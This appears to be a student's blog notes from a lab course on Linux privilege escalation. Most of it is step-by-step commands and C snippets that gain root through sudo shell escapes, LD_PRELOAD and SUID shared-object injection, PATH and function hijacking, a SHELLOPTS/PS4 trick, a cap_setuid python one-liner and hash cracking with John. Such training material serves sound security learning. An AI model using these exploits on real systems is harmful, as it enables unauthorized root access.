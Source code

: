 ```yaml
---
layout: post
title:  "TCM: Linux Priviledge Escalation"
date:   2024-02-02 13:50:01 -0600
categories: TCM
image: /assets/img/linux-privescalation.png
---
```

# Sudo & SUID

Following the course, it starts to get more difficult, when going through the Sudo in 
## Task 8 Sudo (Abusing Intended Functionality)

Shell escaping was fairly straight forward except he didnt explain the multiple lines.
When you have something from gtfobins
```
TERM= sudo more /etc/profile
!/bin/sh
```
it means type the lines 1 at a time, so the second line would be typed after your run the 1st one

## Task 9 Sudo (LD_PRELOAD)
I didn't like this as you had to understand john the ripper, but luckily I was halfway thru the [John the Ripper](
https://tryhackme.com/room/johntheripper0) room so that help get the syntax correct, and look at that wordlist.  Where is that?

```
Your hash.txt file should look like this:
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=sha512crypt
```
I added the password in the rockyou.txt file so I can make this run, but the format was missing

## Task 10
Here's where the REAL learning begins.  He is using the LD_PRELOAD to preload a c file 

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

I really enjoyed this one and had to practice several times before understanding what I'm doing.

## Task 11 SUID (Shared Object Injection)
I would actually STOP here and make sure you understand what he's doing in Task 10.  

Its very similar except he's running suid-so

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id

## Task 12 SUID (Symlinks)

This uses symlink which I'm not too experienced with, but he's using that link to execute in the logs

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

Probably have to re-watch this video

## Task 13 SUID (Environment Variables #1)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

### Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

## SUID (Environment Variables #2)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env2
4. From the output, notice the functions used by the binary.

### Exploitation Method #1

Linux VM

1. In command prompt type:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. In command prompt type:
export -f /usr/sbin/service
3. In command prompt type: /usr/local/bin/suid-env2

### Exploitation Method #2

Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
## Task 14 Capabilities

### Detection

Linux VM

1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

Exploitation

### Linux VM

1. In command prompt type:
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
